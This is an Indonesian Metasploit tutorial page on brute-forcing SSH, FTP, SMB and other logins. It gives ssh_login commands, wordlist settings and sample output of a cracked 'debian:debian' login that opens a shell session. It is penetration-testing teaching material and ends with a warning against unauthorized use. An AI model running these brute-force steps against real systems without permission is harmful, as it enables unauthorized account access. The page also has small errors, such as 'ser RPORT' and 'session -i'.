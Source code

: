 <p align="left">
  <a href="https://github.com/fixploit03/Belajar-Metasploit-Framework/blob/main/resource/Integrasi%20Metasploit%20dengan%20Nmap%20dan%20Nikto.md">Integrasi Metasploit dengan Nmap dan Nikto</a>
</p>

# Modul Bruteforce Login di Metasploit

Metasploit Framework memiliki banyak modul auxiliary yang mendukung bruteforce login terhadap berbagai layanan seperti `SSH`, `FTP`, `HTTP`, `SMB`, `dll`. Modul ini berguna untuk menguji kekuatan kredensial yang digunakan oleh target dan sering dipakai dalam fase credential access saat penetration testing.

## A. Modul-Modul Umum Bruteforce di Metasploit

| Layanan	| Modul Bruteforce |
|:--:|:--:|
| SSH	| `auxiliary/scanner/ssh/ssh_login` |
| FTP	| `auxiliary/scanner/ftp/ftp_login` |
| Telnet | `auxiliary/scanner/telnet/telnet_login` |
| SMB	| `auxiliary/scanner/smb/smb_login` |
| HTTP | `auxiliary/scanner/http/http_login` |

## B. Bruteforce SSH dengan `ssh_login`

**Langkah-langkah:**

1. Gunakan Modul:

   ```
   use auxiliary/scanner/ssh/ssh_login
   ```

2. Lihat Opsi Konfigurasi:

   ```
   show options
   ```

3. Setting Target dan Payload:

   ```
   set RHOSTS <IP TARGET>
   ser RPORT 22
   set USER_FILE /usr/share/wordlists/user.txt
   set PASS_FILE /usr/share/wordlists/rockyou.txt
   set BRUTEFORCE_SPEED  5
   set THREADS 1
   set VERBOSE true
   run
   ```

   Kalu berhasil output-nya akan sepertin ini:

   ```
   [-] 192.168.1.27:22 - Failed: 'root:'
   [-] 192.168.1.27:22 - Failed: 'debian:admin'
   [-] 192.168.1.27:22 - Failed: 'debian:root'
   [+] 192.168.1.27:22 - Success: 'debian:debian' 'uid=1000(debian) gid=1000(debian) groups=1000(debian),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev),110(bluetooth)       Linux debian 6.1.0-34-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.135-1 (2025-04-25) x86_64 GNU/Linux '
   [*] SSH session 1 opened (192.168.1.42:38455 -> 192.168.1.27:22) at 2025-05-09 16:16:12 +0700
   ```

   Hasil Brute Force akan otomatis disimpan dalam database Metasploit jika aktif:

   ```
   creds
   ```

   Disini ada sesi Meterpreter yang terbuka yakni sesi dengan ID `1`, kita bisa masuk ke sesi Meterpreter-nya dengan cara:

   ```
   session -i 1
   ```

   Dan selamat kamu sudah masuk kedalam sistem terget:

   ```
   msf6 auxiliary(scanner/ssh/ssh_login) > sessions -i 1
   [*] Starting interaction with 1...

   pwd
   /home/debian
   ```

   Disini kamu bisa melakukan banyak perintah dan banyak hal.

   **Catatan Opsi Penting**

   | Opsi | Deskripsi |
   |:--:|:--:|
   | `RHOSTS` | IP target  |
   | `RPORT` | Port SSH |
   | `USERNAME` | Gunakan satu username (jika diketahui)  |
   | `PASSWORD` | Gunakan satu password (jika diketahui)  |
   | `USER_FILE` | File Wordlist yang berisi username  |
   | `PASS_FILE` | File Wordlist yang berisi password  |
   | `BRUTEFORCE_SPEED` | Kecepatan proses Brute Force |
   | `THREADS`	| Jumlah thread paralel untuk mempercepat proses  |
   | `VERBOSE` | Menampilkan output lebih detail (debugging)

## Tips Tambahan

- Gunakan wordlist yang relevan (hindari terlalu besar agar tidak lambat).
- Gunakan `services` untuk melihat layanan yang bisa ditargetkan:

  ```
  services -p 22 -u
  ```

- Bisa digabung dengan hasil `Nmap` yang sudah diimpor ke Metasploit.

> Jangan gunakan teknik  Brute Force ke sistem yang bukan milikmu atau tanpa izin.


<p align="right">
  <a href="https://github.com/fixploit03/Belajar-Metasploit/blob/main/resource/Menggunakan%20Auxiliary%20Scanner%20di%20Metasploit.md">Menggunakan Auxiliary Scanner di Metasploit</a>
</p>
